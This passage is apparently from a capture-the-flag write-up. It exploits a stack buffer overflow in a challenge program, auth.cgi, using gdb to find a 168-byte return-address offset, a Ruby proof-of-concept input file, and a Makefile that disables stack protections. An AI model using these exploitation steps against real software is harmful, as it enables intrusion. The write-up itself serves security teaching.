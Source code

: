 Crashing at `ret` is what you'd expect if you overwrote the return address, so that's good news! We can inspect the value in `rsp` to see where it's trying to return to:

```
(gdb) x/xwg $rsp
0x7fffffffd918: 0x5656565656565656
```

Aha! 0x56 is `V`! We can do some math... or, better yet, just use Ruby some more:

```
3.1.3 :001 > puts (?A..?U).to_a.map { |c| c*8 }.join.length
168
```

So 168 bytes are needed before the return address! Let's verify that by creating a file with 168 `A`s followed by 8 `B`s. If it works, we'd expect to crash at `BBBBBBBB` (0x4242424242424242):

```
$ irb
3.1.3 :002 > File.write('/tmp/poc.bin', ('A'*168)+('B'*8))
 => 176
```

```
$ CONTENT_LENGTH=176 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain


Program received signal SIGSEGV, Segmentation fault.
0x000000000040175e in main (argc=1, argv=0x7fffffffdad8) at auth.c:32
warning: Source file is more recent than executable.
32      }
(gdb) x/xwg $rsp
0x7fffffffd918: 0x4242424242424242
```

Aha! Now we know how to overwrite the return address. But what do we put there?

## Jumping to the stack

The first binary is compiled with all the fun flags:

```makefile
CFLAGS?=-Wall -fno-stack-protector -no-pie -z execstack -z norelro -static -g

all: auth.cgi

auth.cgi: auth.c
	gcc ${CFLAGS} -o auth.cgi auth.c

clean:
	rm -f *.o auth.cgi
```
